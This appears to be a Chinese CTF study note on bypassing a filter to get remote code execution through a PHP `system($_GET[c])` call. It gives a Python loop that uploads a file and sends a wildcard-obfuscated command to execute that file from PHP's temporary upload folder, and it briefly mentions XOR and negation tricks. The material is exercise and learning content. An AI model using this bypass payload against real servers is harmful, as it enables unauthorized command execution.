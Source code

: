 tags:: CTFWEB/RCE, CTFWEB/Shell/WAF绕过

	-
- # 参考
	- [[CTFWEB/WP/CTFShow/web55]]
- # 方式一
	- 对于这样的语句：`system($_GET[c]);`
	- 可以执行上传的文件缓存
	- ```python
	  while True:
	      r = requests.post(
	          url,
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files={
	              "file":("a.txt", "cat flag.php")
	          }
	      )
	      if r.text:
	          break
	  
	  print(r.text)
	  ```
- # 方式二
	- 使用异或、取反等操作
- # 方式三
	- [[CTFWEB/WP/CTFShow/web57]]
